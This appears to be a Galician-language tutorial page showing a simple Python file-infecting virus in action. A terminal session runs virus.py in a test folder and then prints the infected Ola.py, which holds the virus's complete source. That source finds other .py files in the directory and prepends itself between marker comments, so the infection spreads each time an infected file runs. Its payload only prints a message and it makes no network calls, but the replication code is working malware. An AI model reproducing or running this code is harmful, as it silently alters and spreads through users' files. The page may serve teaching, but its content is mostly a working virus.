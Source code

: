 Se se executa este código nun cartafol con outros ficheiros coa extensión .py, obterase o seguinte resultado:
```shell
probasvx@probasvx:~/virus1$ ls -las
total 16
4 drwxr-xr-x  2 probasvx probasvx 4096 Dec 14 11:12 .
4 drwxr-xr-x 23 probasvx probasvx 4096 Dec 14 11:05 ..
4 -rw-r--r--  1 probasvx probasvx   20 Dec 14 11:12 Ola.py
4 -rw-r--r--  1 probasvx probasvx  925 Dec 14 11:11 virus.py
probasvx@probasvx:~/virus1$ cat Ola.py 
print("Ola mundo!")
probasvx@probasvx:~/virus1$ python3 virus.py 
Fuches infectado
probasvx@probasvx:~/virus1$ ls -las
total 16
4 drwxr-xr-x  2 probasvx probasvx 4096 Dec 14 11:12 .
4 drwxr-xr-x 23 probasvx probasvx 4096 Dec 14 11:05 ..
4 -rw-r--r--  1 probasvx probasvx  945 Dec 14 11:12 Ola.py
4 -rw-r--r--  1 probasvx probasvx  925 Dec 14 11:11 virus.py
probasvx@probasvx:~/virus1$ cat Ola.py 
# Virus:Inicio
import os
import sys


def infectar(virus):
    ruta = "."
    for arquivo in os.listdir(ruta):
        if arquivo.endswith(".py"):
            script = open(arquivo, "r")
            texto_script = script.read()
            script.close()
            if not "# Virus:Inicio" in texto_script:
                infectado = open(arquivo + ".infectado", "w")
                infectado.write(virus + "\n")
                infectado.write(texto_script)
                infectado.close()
                os.remove(arquivo)
                os.rename(arquivo + ".infectado", arquivo)


def payload():
    print("Fuches infectado")


def executa(virus):
    infectar(virus)
    payload()


portador = open(sys.argv[0], "r")
texto_portador = portador.read()
portador.close()
virus = texto_portador[texto_portador.find("# Virus:Inicio"):texto_portador.rfind("# Virus:Fin") + len("# Virus:Fin")]
executa(virus)
# Virus:Fin
print("Ola mundo!")
```
